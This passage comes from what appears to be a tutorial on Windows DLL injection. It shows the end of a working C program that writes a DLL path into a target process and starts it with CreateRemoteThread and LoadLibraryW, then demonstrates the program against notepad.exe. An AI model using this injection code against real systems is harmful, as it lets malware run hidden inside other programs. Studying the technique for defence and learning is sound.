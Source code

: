 ```c
		printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	//Step 5: Create a new Thread starting at the LoadLibraryW function address
	hThread = CreateRemoteThread(hProcess, NULL, NULL, pLoadLibraryW, pAddress, NULL, NULL);
	if (hThread == NULL) {
		printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}
	printf("[+] DONE !\n");

_EndOfFunction:
	if (hThread)
		CloseHandle(hThread);
	return bSTATE;
}

int wmain(int argc, wchar_t* argv[]) {
	HANDLE	hProcess = NULL;
	DWORD	dwProcessId = NULL;

	if (argc < 3) {
		wprintf(L"[!] You must provide The Dll Payload Path and Process Name as arguments!\n");
	}
	
	wprintf(L"[i] Searching For Process Id Of \"%s\" ... ", argv[2]);
	//Steps 1 and 2 occur here
	if (!GetRemoteProcessHandle(argv[2], &dwProcessId, &hProcess)) {
		printf("[!] Process is Not Found \n");
		return -1;
	}
	printf("[i] Found Target Process Pid: %d \n", dwProcessId);
	// Steps 3,4 and 5 occur here
	if (!InjectDll(hProcess, argv[1])) {
		return -1;
	}

	CloseHandle(hProcess);
	return 0;

}

```

Now, we can open notepad and try to execute this new program we created and using notepad.exe as the target process and the Dll that we created in the “local loader” example :

![Untitled](/img/posts/DLLi/Untitled%201.png)
